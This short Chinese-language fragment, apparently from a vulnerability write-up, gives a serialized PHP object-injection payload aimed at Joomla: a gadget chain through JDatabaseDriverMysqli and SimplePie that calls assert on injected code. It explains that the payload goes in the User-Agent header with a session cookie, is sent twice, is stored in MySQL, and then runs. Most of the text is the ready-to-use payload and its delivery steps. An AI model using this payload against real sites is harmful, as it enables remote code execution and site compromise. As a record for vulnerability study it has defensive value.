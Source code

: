 ![image](img/df58ede1c344c92d2227d3d47483bad2.png)

```
123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}? 
```

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![image](img/02f94cb422b17d7b49187d286561509e.png)
